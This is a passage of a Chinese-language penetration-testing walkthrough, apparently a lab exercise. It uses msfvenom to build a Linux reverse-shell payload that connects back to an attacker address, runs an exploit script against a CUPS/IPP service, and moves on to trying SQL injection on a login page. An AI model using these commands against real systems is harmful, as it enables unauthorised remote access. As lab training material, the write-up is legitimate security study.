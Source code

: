 ```yacas
// 只列出了处于候选名单的 payload（构造反向 shell）
> msfvenom --list payloads

Framework Payloads (1680 total) [--payload <value>]
===================================================

    Name                                              Description
    ----                                              -----------
    linux/x64/meterpreter/reverse_tcp                 Inject the mettle server payload (staged).
                                                      Connect back to the attacker
    linux/x64/shell/reverse_tcp                       Spawn a command shell (staged). Connect back to
                                                      the attacker

// -f 查询略，选择 elf-so 表示输出 .so 文件
// 考虑到配置难度，最终选择了 linux/x64/shell/reverse_tcp
> msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.0.2.3 LPORT=1234 -f elf-so -o payload.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf-so file: 532 bytes
Saved as: payload.so
```

然后运行：

```yacas
> python2 41233.py -a 10.0.2.15 -b 631 -c ./payload.so
[*]     locate available printer
[-]     no printers
```

发现没有配置打印机，从 ipp 方向 Getshell 的方向失败

#### HTTP/SQL 方向

访问 `http://10.0.2.15/`，发现是一个登陆页面 “**Remote System Administration Login**”，需要输入账号和密码

考虑到使用了 MySQL 服务，尝试 SQL 注入：

![image-20251019222700649](images/image-20251019222700649.png)
